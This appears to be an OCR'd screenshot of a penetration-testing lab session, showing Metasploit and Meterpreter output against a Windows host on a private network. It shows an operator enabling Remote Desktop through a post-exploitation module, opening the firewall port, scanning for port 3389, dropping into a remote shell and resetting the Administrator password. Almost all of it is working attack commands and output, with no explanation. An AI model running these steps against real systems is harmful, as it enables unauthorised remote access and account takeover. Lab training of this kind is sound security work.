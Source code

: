 ```
msf5 post(windows/manage/enable_rdp) > set SESSION 1
SESSION => 1
msf5 post(windows/manage/enable_rdp) > exploit

[*] Enabling Remote Desktop
[*] 	RDP is already enabled
[*] Setting Terminal Services service startup mode
[*] 	The Terminal Services service is not set to auto, changing it to auto ...
[+] 	RDP Service Started
[*] 	Opening port in local firewall if necessary
[*] For cleanup execute Meterpreter resource file: /root/.msf4/loot/20230301185736_rdp_10.0.31.240_host.windows.cle_422632.txt
[*] Post module execution completed

```

```
msf5 post(windows/manage/enable_rdp) > services
Services
========

host         port   proto  name          state  info
----         ----   -----  ----          -----  ----
10.0.31.240  80     tcp    http          open   BadBlue/2.7
10.0.31.240  135    tcp    msrpc         open   Microsoft Windows RPC
10.0.31.240  139    tcp    netbios-ssn   open   Microsoft Windows netbios-ssn
10.0.31.240  445    tcp    microsoft-ds  open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.31.240  49152  tcp    msrpc         open   Microsoft Windows RPC
10.0.31.240  49153  tcp    msrpc         open   Microsoft Windows RPC
10.0.31.240  49154  tcp    msrpc         open   Microsoft Windows RPC
10.0.31.240  49155  tcp    msrpc         open   Microsoft Windows RPC
10.0.31.240  49165  tcp    msrpc         open   Microsoft Windows RPC

msf5 post(windows/manage/enable_rdp) > db_nmap -p 3389 10.0.31.240
[*] Nmap: Starting Nmap 7.70 ( https://nmap.org ) at 2023-03-01 19:01 IST
[*] Nmap: Nmap scan report for 10.0.31.240
[*] Nmap: Host is up (0.0025s latency).
[*] Nmap: PORT     STATE SERVICE
[*] Nmap: 3389/tcp open  ms-wbt-server
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds

```

```
msf5 post(windows/manage/enable_rdp) > sessions 1
[*] Starting interaction with 1...

meterpreter > shell
Process 1844 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>net users
net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            Guest                    
The command completed with one or more errors.

C:\Windows\system32>net users administrator hacker_123321
```